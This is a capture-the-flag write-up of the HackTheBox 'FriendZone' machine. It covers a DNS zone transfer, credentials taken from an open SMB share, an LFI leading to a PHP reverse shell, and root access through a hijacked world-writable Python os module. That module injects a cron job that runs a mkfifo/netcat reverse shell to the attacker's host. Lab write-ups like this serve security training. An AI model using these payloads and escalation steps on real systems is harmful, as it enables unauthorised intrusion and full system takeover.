



# [](#intro)Introduction

Hello there, virgins. Today we are going to be solving the worst problem ever: owning FriendZone on HackTheBox. Jokes aside, this is a an easy difficulty machine that will provide us more knowledge about DNS zone transfers.
You can access this box [here](https://app.hackthebox.com/machines/173).

# [](#level-description)Challenge description

For the leve description, we have:

> FriendZone is an easy difficulty Linux box which needs fair amount enumeration. By doing a zone transfer vhosts are discovered. There are open shares on samba which provides credentials for an admin panel. From there, an LFI is found which is leveraged to get RCE. A cron is found running which uses a writable module, making it vulnerable to hijacking.

As we can see, we will be performing zone transfers to find VHosts (Virtual Hosts). 


# [](#approach)Approach mindset

For our approach mindset, we shall separate it as the following steps:

1. Reconnaissance
2. Getting foothold
3. System enumeration
4. Privilege escalation


## [](#step1-recon)Step 1 - Reconnaissance

We start by enumerating the system's TCP ports:

```bash
$ sudo nmap -p- -T4 --min-rate 1000 -oN ports.nmap -A -Pn 10.129.35.124
# Nmap 7.94 scan initiated Thu Jan 18 13:12:35 2024 as: nmap -p- -T4 --min-rate 1000 -oN ports.nmap -A -Pn 10.129.35.124
Warning: 10.129.35.124 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.35.124
Host is up (0.50s latency).
Not shown: 64930 closed tcp ports (reset), 598 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
445/tcp open  netbios-p   Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Aggressive OS guesses: Linux 3.16 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.13 (93%), Linux 3.18 (93%), Linux 3.2 - 4.9 (93%), DD-WRT v3.0 (Linux 4.4.2) (93%), Linux 4.10 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 2h22m34s, deviation: 1h09m10s, median: 3h02m30s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2024-01-18T18:21:42+02:00
| smb2-time: 
|   date: 2024-01-18T16:21:42
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   946.09 ms 10.10.16.1
2   946.18 ms 10.129.35.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 18 13:19:58 2024 -- 1 IP address (1 host up) scanned in 442.67 seconds
```

As we can see, we have ports 21, 22, 53, 80, 139, 443, and 445 open. Nothing too interesting about FTP, since Anonymous login is disabled. Having port 53 open indicates that we have a DNS service listening on TCP, which is a strong indication that this server is not just a DNS client, but also a DNS server. Typically, DNS queries are handled over UDP, but TCP is used for operations that require reliability and for larger responses, such as zone transfers.

We also see that the TLS common name is friendzone.red. That being said, we might have a way to zone transfer this domain name to the machine's IP address and retrieve subdomains under that name. To do so, we will be using dig:

```bash
$ dig axfr friendzone.red @10.129.35.124

; <<>> DiG 9.18.21 <<>> axfr friendzone.red @10.129.35.124
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 483 msec
;; SERVER: 10.129.35.124#53(10.129.35.124) (TCP)
;; WHEN: Thu Jan 18 17:07:52 UTC 2024
;; XFR size: 8 records (messages 1, bytes 289)
```

From here, we see that we have lots of subdomains pointing to this address, and the transfer was successful. To access these endpoints, we are going to be adding them to our `/etc/hosts` file: ```echo "10.129.35.124 friendzone.red administrator1.friendzone.red hr.friendzone.red uploads.friendzone.red >> /etc/hosts```. 

If we try to access the administrator's subdomain, we are welcomed with a login page:


But we do not have any credentials to log in. From the machine info, we see that credentials are stored in a SMB share that has public access. Let's enumerate the shares and find these credentials:

```bash
$ smbclient --no-pass -L 10.129.35.124

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Files           Disk      FriendZone Samba Server Files /etc/Files
        general         Disk      FriendZone Samba Server Files
        Development     Disk      FriendZone Samba Server Files
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

And after connecting to `Development` and `general`, we find the credentials in the latter:

```bash
$ smbclient --no-pass //10.129.35.124/general
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 16 20:10:51 2019
  ..                                  D        0  Tue Sep 13 14:56:24 2022
  creds.txt                           N       57  Tue Oct  9 23:52:42 2018

                3545824 blocks of size 1024. 1540052 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
$ cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

After that, we rush back to the `administrator1` subdomain to successfully log in. Now, we have access to this endpoint:



The page seems to be asking for URL parameters image_id and pagename. Let's find out what happens here when we pass the default parameters suggested by the page:



It seems the page is able to display another page that resides server-side if we pass it under `pagename`. This does not help much, however, we might be able to upload a test page to some of the SMB shares and access it with LFI technique. Acessing the Development share with `smbclient`, we see that we are able to upload files into it:

```bash
smb: \> put creds.txt
putting file creds.txt as \creds.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \> dir
  .                                   D        0  Thu Jan 18 20:28:52 2024
  ..                                  D        0  Tue Sep 13 14:56:24 2022
  creds.txt                           A       57  Thu Jan 18 20:28:53 2024
```

However, we need to find the path to this file in order to display it under the admin dashboard. To do so, we will be using Nmap again:

```bash
$ nmap --script smb-enum-shares.nse 10.129.35.124 -p 445
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-18 17:27 UTC
Stats: 0:00:34 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for friendzone.red (10.129.35.124)
Host is up (0.15s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.129.35.124\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
[...snip...]
```

As we can see, the path to this directory is `/etc/Development`. However, after attempting to display `creds.txt` on the page, I had no success. Maybe the service only displays php files? That's what we are going to try now. Let's create a php script:

```php
<?php
echo '<h1>mula</h1>';
?>
```

save it under `test.php` and upload it to the Development share. Now, we try to access it by giving `pagename=/etc/Development/test`:



Confirming the vulnerability!

## [](#step3-foothold)Step 2 - Getting foothold

We will now upload PentestMonkey reverse shell (you can get it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)) to the Development share. Before that, change the `$ip` and `$port` variables inside the reverse shell to match the one of your local machine. Then, we can upload it to the machine with SMB:

```bash
$ smbclient --no-pass //10.129.35.124/Development
Try "help" to get a list of possible commands.
smb: \> put rev-shell.php
putting file rev-shell.php as \rev-shell.php (9.4 kb/s) (average 9.4 kb/s)
```

Now, we start our netcat on the port we assigned on the `$port` variable and pass the parameter in the URL `pagename=/etc/Development/rev-shell`:

```bash
$ nc -lvnp 1234
Connection from 10.129.35.124:37272
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 22:50:45 up  4:50,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

and we are inside! After poking around the web-service files, I stumbled upon a file named `mysql_data.conf`, which contained the following content:

```bash
$ pwd
/var/www/friendzone
$ ls
admin
friendzone
friendzoneportal
friendzoneportaladmin
html
mysql_data.conf
uploads
$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

Revealing the friend user password to be `Agpyu12!0.213$`. Even though this password might be for MySQL service, we can try to use it to SSH into the machine as `friend`. We will see that this is actually the SSH user's password as well:

```bash
friend@FriendZone:~$ id
uid=1000(friend) gid=1000(friend) groups=1000(friend),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
friend@FriendZone:~$ cat user.txt
627c48e56e0344b5b54fcd021f9bc8aa
```

## [](#step3-crafting-the-attack)Step 3 - System enumeration

Using LinPEAS, I was able to enumerate the machine and find group writable files. These are the ones that are most interesting to me:

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                      
/dev/mqueue                                                                                                                            
/dev/shm
/etc/Development
/etc/Development/creds.txt
/etc/Development/hacked.php
/etc/Development/rev-shell.php
/etc/Development/test.php
/etc/sambafiles
/home/friend
/run/lock
/run/user/1000
/run/user/1000/gnupg
/run/user/1000/systemd
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/usr/lib/python2.7
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/var/lib/php/sessions
/var/mail/friend
/var/spool/samba
/var/tmp
```

However, since we are supposed to exploit crontabs, we need ways to execute such files and set up a cronjob to spawn a root shell. For that to work, we would need a file that is being ran as root that was possibly world writable. However, none of these above are being run by root. I've then uploaded PSPY to the machine and found these interesting lines:

```bash
[...snip...]
2024/01/18 23:26:59 CMD: UID=0    PID=13     | 
2024/01/18 23:26:59 CMD: UID=0    PID=12     | 
2024/01/18 23:26:59 CMD: UID=0    PID=115    | 
2024/01/18 23:26:59 CMD: UID=0    PID=11     | 
2024/01/18 23:26:59 CMD: UID=0    PID=10     | 
2024/01/18 23:26:59 CMD: UID=0    PID=1      | /sbin/init splash 
2024/01/18 23:28:01 CMD: UID=0    PID=23018  | 
2024/01/18 23:28:01 CMD: UID=0    PID=23017  | /bin/sh -c /opt/server_admin/reporter.py 
2024/01/18 23:28:01 CMD: UID=0    PID=23016  | /usr/sbin/CRON -f 
[...snip...]
```
There is a process being ran as root, which is related to this `reporter.py` file. Let's take a look at it:

```bash
friend@FriendZone:~$ cat /opt/server_admin/reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

I immediately notice that this script imports `os`, which appeared in LinPEAS as a group writable file. If this is the case, and reporter.py imports os, we can write a line there to automatically add a cronjob to spawn a reverse shell. 

## [](#solving) Step 4 - Privilege escalation

We can write these lines into the `os.py` file:

```python
shell = '''
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 4444 >/tmp/f
'''
f = open('/etc/crontab', 'a')
f.write(shell)
f.close()
```

Substituting `<your-ip>` by the IP of your local machine. We can see that the cronjob was successfully added:

```bash
friend@FriendZone:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f
```

Now, we start our netcat on port 4444 and wait... After a while, we get the root shell:

```bash
$ nc -lnvp 4444
Connection from 10.129.35.203:34736
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
132c1657472872848c0de6549a1d2a97
```

# [](#conclusions)Conclusion

In this CTF, we learned a bit more about zone transfers and cronjobs. I really enjoyed the process to get the user shell, but the system was quite boring. Every time I have to dabble with cronjobs, I become very unenthusiastic and somewhat disinterested. Cronjob-related tasks often boil down to waiting for the right moment or repeatedly checking log files, which doesn't quite give the same thrill as more interactive and dynamic aspects of system penetration and exploration.

Nevertheless, I hope you liked this write-up and learned something new. As always, don’t forget to do your **research!**

<a href="/">Go back</a>

